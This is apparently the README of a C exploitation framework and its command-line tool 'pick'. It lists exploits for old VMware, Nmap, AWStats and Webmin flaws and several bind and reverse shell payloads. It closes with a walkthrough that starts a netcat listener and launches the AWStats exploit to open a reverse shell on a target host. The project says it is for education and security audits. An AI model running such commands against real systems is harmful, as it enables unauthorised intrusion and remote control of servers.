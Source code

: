 
## libxploit - exploitation framework as C API

### Introduction

Aim of this project is to design and implement exploitation framework (like Metasploit) written in C language and provided as C library.

Advantages of doing so:

 * adding bindings to other programming languages is possible 
 * exploitation functionality can be added to other programs
 * writing non-interactive programs with exploitation capability is possible
 * automation is possible  

Despite the potential practical usage of this library main purpose of creating it by it's author are educational reasons.

Together with the library, command line utility `pick` ('wytrych' in Polish) is provided. The utility exposes API's functionality for command line use:

```
Usage: ./pick [options] --exploit <exploit> --payload <payload> --exploit-opts <options> --payload-opts <options>

Options:
   -h/--help    : this help
   -v    : verbose mode
   -d    : debug mode
   --show-exploits    : show all available exploits
   --show-payloads    : show all available payloads
   --exploit-help <exploit>    : how doc for <exploit>
   --payload-help <payload>    : how doc for <payload>
   --exploit <exploit>    : use <exploit> as exploit
   --payload <payload>    : use <payload> as payload
   --exploit-opts <n1=v1,[n2=v2,...]>    : provide exploit options
   --payload-opts <n1=v1,[n2=v2,...]>    : provide payload options
```

By default `pick` comes statically compiled which makes it perfect for checking for local privileges escalation vulnerabilities when doing security server audits.

### Typical command line session

Show available exploits:

    $ ./pick --show-exploits

Choose exploit of interest from the output:

```
[ CVE-2013-1662 ] VMWare setuid vmware-mount unsafe popen(3)
Affected software: VMWare Workstation ver. <= 9.0.2 build-1031769
References:
http://blog.cmpxchg8b.com/2013/08/security-debianisms.html
http://www.vmware.com/support/support-resources/advisories/VMSA-2013-0010.html
Exploit name: vmware-mount

[ NO-CVE ] Setuid Nmap Exploit
Affected software: Nmap with suid privileges
References:
 -
Exploit name: setuid-nmap

[ CVE-2006-3392 ] AWStats configdir remote command execution
Affected software: Awstats ver. <= 6.2
References:
https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2005-0116
http://www.securityfocus.com/bid/12298/info
Exploit name: exec-awstats

[ CVE-2006-3392 ] Webmin/Usermin File Disclosure
Affected software: Webmin ver. < 1.290, Usermin ver. < 1.220
References:
http://secunia.com/advisories/20892/
Exploit name: fdisc-webmin
```

Show details about chosen exploit:

    $ ./pick --exploit-help exec-awstats

Output:

```
[ CVE-2006-3392 ] AWStats configdir remote command execution
Affected software: Awstats ver. <= 6.2
References:
https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2005-0116
http://www.securityfocus.com/bid/12298/info
Type: remote

Exploit options:

Name   Default setting      Required
----   ---------------      --------
RHOST                       yes
RPORT  80                   yes
URI    /awstats/awstats.pl  yes
VHOST                       no
```

Show available payloads:

    $ ./pick --show-payloads

Choose from the output the one that provides desired effect:

```
null - empty payload
linux-x86-exec - executes provided linux command
cmd-bind-awk - listens for a connection & spawns shell via awk
cmd-generic - executes supplied command line
cmd-bind-nc - listens for a connection & spawns shell via netcat
cmd-bind-perl - listens for a connection & spawns shell via perl
cmd-reverse-perl - creates reverse shell via perl
```

See the details of chosen payload:

    $ ./pick --payload-help cmd-reverse-perl

Payload's details:

```
cmd-reverse-perl - creates reverse shell via perl

Payload options:

Name   Default setting  Required
----   ---------------  --------
LHOST                   yes
LPORT                   yes
```

Prepare connection handler on local (192.168.1.1) machine for `cmd-reverse-perl` payload:

    $ nc -l -p 4444

On second terminal fire up exploit of choice with your settings: 

    $ ./pick --exploit exec-awstats --payload cmd-reverse-perl --exploit-opts RHOST=192.168.1.2,RPORT=80 --payload-opts LHOST=192.168.1.1,LPORT=4444

Get back to terminal with your connection handler and enjoy interactive remote shell session.

